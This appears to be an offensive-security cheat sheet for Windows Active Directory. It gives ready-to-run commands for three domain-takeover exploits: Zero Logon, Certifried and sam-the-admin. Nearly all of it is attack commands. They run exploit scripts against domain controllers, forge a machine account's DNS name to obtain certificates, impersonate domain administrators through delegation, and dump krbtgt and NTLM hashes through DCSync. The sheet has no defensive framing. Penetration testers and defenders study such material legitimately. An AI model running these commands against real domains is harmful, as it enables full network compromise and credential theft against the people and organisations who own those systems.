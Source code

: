 # Windows

## CVE-2020-1472 : Zero Logon
PoC based on this link : <https://github.com/dirkjanm/CVE-2020-1472>
```bash
python3 cve-2020-1472-exploit.py HOSTNAME IP
impacket-secretsdump 'HOSTNAME$@IP'
```

## CVE-2022-26923 : Certifried
More info in : <https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html>
By default, a user can create at least 10 computers. To verify this, check if ms-DS-MachineAccountQuota > 0 :
```bash
python3 bloodyAD.py -d DOMAIN -u USERNAME -p PASSWORD --host DC_IP getObjectAttributes 'DC=domain,DC=local' ms-DS-MachineAccountQuota
```
If it's okay, just add a computer with bloodyAD :
```bash
python3 bloodyAD.py -d DOMAIN -u USERNAME -p PASSWORD --host DC_IP addComputer COMPUTER_NAME 'COMPUTER_PASSWORD'
```
Then, set the dNSHostname attribute of your machine to match the domain controller one (for exemple DC.domain.local) :
```bash
python3 bloodyAD.py -d DOMAIN -u USERNAME -p PASSWORD --host DC_IP setAttribute 'CN=COMPUTER_NAME,CN=Computers,DC=domain,DC=local' dNSHostName '["DC.domain.local"]'
```
Use certipy to request a certificate for the computer, using default 'Machine' template & ADCS IP address. This will create a .pfx file, corresponding to the certificate issued by the CA :
```bash
certipy req 'domain.local/COMPUTER_NAME$:COMPUTER_PASSWORD@ADCS_IP' -template Machine -dc-ip DC_IP -ca CA_NAME
```
Then, use certipy tool to get a TGT by using a Kerberos authentication (PKINIT), using the certificate :
```bash              
certipy auth -pfx ./DC.pfx -dc-ip 10.100.10.12
```
If it works, go to "HERE" section. Otherwise, use RBCD technique from bloodyAD. It will set up delegation rights :
```bash
openssl pkcs12 -in DC.pfx -out DC.pem -nodes
python3 bloodyAD.py -d domain.local  -c ":DC.pem" -u 'COMPUTER_NAME$' --host DC_IP setRbcd 'COMPUTER_NAME$' 'DC_NAME$'
```
Then, try to impersonate a domain admin using impacket :
```bash
impacket-getST -spn LDAP/DC.DOMAIN.LOCAL -impersonate ADMIN_NAME -dc-ip DC_IP 'domain.local/COMPUTER_NAME$:COMPUTER_PASSWORD'
```
HERE - You'll get either the .ccache file (TGT) or the NT Hash. If you get the NT Hash, you know what to do next ;). It's linked to the DC computer account, so normally, you're admin. To use .ccache file :
```bash
cp XXXX.ccache /tmp/
export KRB5CCNAME=/tmp/XXXX.ccache
```
Finally, use impacket to perform a DCSync with the exported TGT :
```bash
impacket-secretsdump -user-status -just-dc-ntlm -just-dc-user krbtgt 'domain.local/XXXX@DC.domain.local' -k -no-pass -dc-ip DC_IP -target-ip IP_ADDRESS 
```

## CVE-2021-42278 & CVE-2021-42287 : Sam-The-Admin
Impersonate DA from standard domain user. Based on <https://github.com/WazeHell/sam-the-admin>
```bash
python3 sam_the_admin.py -domain-netbios NETBIOS_NAME -dc-ip IP_DC -shell 'DOMAIN/USERNAME:PASSWORD'
```
